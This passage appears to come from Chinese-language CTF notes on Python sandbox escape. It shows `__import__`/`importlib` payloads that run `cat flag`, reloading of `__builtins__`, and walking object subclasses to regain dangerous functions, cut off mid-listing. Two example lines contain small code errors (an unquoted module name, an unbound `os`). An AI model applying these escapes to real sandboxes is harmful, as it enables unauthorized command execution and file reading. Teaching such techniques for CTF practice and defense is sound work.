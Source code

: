 可以用 `__import__` 来手动 import，具体：`__import__(package)`  得到的就是这个package、或者用 `importlib.import_module` 来导入一个包

```python
__import__(os).system("cat flag")
importlib.import_module("os"); os.system("cat flag")
```

### 仅清空了 \_\_builtins\_\_

可以尝试用 `imp.reload` 或 `importlib.reload` 来重新导入 `__builtins__` 

### eval 把环境清空了

#### 找 object 的子类

python 中一切皆对象，可以通过任意东西来找到 object 这个类：

```python
[].__class__.__base__
[].__class__.__bases__[0]
[].__class__.__mro__[-1]
().__class__.__base__
...
{}....
''....
...
```

然后获取它的子类：

```python
[].__class__.__base__.__subclasses__()
```

??? example "subclasses"
    
    ```python
    (0, <class 'type'>)
    (1, <class 'weakref'>)
    (2, <class 'weakcallableproxy'>)
    (3, <class 'weakproxy'>)
    (4, <class 'int'>)
    (5, <class 'bytearray'>)
    (6, <class 'bytes'>)
    (7, <class 'list'>)
    (8, <class 'NoneType'>)
    (9, <class 'NotImplementedType'>)
    (10, <class 'traceback'>)
    (11, <class 'super'>)
    (12, <class 'range'>)
    (13, <class 'dict'>)
    (14, <class 'dict_keys'>)
    (15, <class 'dict_values'>)
    (16, <class 'dict_items'>)
    (17, <class 'dict_reversekeyiterator'>)
    (18, <class 'dict_reversevalueiterator'>)
    (19, <class 'dict_reverseitemiterator'>)
    (20, <class 'odict_iterator'>)
    (21, <class 'set'>)
    (22, <class 'str'>)
    (23, <class 'slice'>)
    (24, <class 'staticmethod'>)
    (25, <class 'complex'>)
    (26, <class 'float'>)
    (27, <class 'frozenset'>)
    (28, <class 'property'>)
    (29, <class 'managedbuffer'>)